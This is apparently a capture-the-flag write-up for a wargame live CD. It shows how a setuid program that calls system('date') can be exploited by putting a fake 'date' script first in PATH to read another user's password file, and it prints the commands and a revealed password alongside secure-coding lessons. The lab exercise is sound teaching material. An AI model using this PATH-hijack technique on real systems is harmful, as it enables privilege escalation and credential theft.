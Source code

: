 ## Level 1: don't use the system function in C

When the live CD starts,
you are automatically logged in as user `level00`.
The "message of the day" explains that the password of `level01` is saved in `/home/level01/.password`,
and your goal is to read that file and login as `level01`.

All the levels on this CD work roughly the same way:

- The password of each `levelXX` user is stored in a file named `.password` in their home directory.

- The user home directories are well protected:
  only their owners have access (`0700` mode)

- The vulnerable programs and their source code are stored in the `/levels/levelXX` directories.

- The explanation of the level is shown when you login,
  it saved in the file `motd.txt` in the user's home directory.

- The explanation of the level always contains a hint to beat the challange, so it's good to read it carefully.

Taking the hint from the explanation of the level,
let's look at the files in the `/levels/level01` directory:

```
$ ls -l /levels/level01
total 32
-rw-rw-r--  1 level01  level01    69 Mar  9 19:08 Makefile
-rwsr-xr-x  1 level01  level01  7352 Mar  9 19:08 level01
-rw-rw-r--  1 level01  level01   152 Mar  9 19:08 level01.c
```

Notice the user permission `rws` on the file `level01`.
The setuid bit is set,
so when we run this program,
it will have the access permissions of `level01`,
the owner of the file,
instead of our current user.
Let's run it to see what it does:
```
$ /levels/level01/level01
Current time: Tue Sep  3 23:55:54 UTC 2013
```

It simply prints the current date and time.
Let's see how this is implemented in the source code:
```
printf("Current time: ");
fflush(stdout);
system("date");
return 0;
```

Instead of using native C functions to get the date,
the program calls the `system` function to run the `date` command.
We can find how `system` works in `man system`:
it executes the given string by calling `/bin/sh -c`.

Consider how the shell executes a command that is not an absolute path:
for each directory defined in `PATH`,
it checks if there is an executable file,
and it runs the first match.
We can easily exploit this by creating our own script named `date`,
prepend its base directory to `PATH`,
and make it print `/home/level01/.password`.
Here we go:

```
$ echo '#!/bin/cat /home/level01/.password' > /tmp/date
$ chmod +x /tmp/date 
$ PATH=/tmp /levels/level01/level01
Current time: aepeefoo
#!/bin/cat /home/level01/.password
```

Bingo! Now we can login as `level01` using the revealed password.

### Lessons to learn

- Read well the documentation, especially the warnings about usage:
  `man system` warns that it should not be used in setuid programs.

- Don't use the `system` function.
  Or if you must, at least use it only with absolute paths.

- Beware of environment variables that users can manipulate to alter the behavior of your programs.

- Beware of setuid programs.

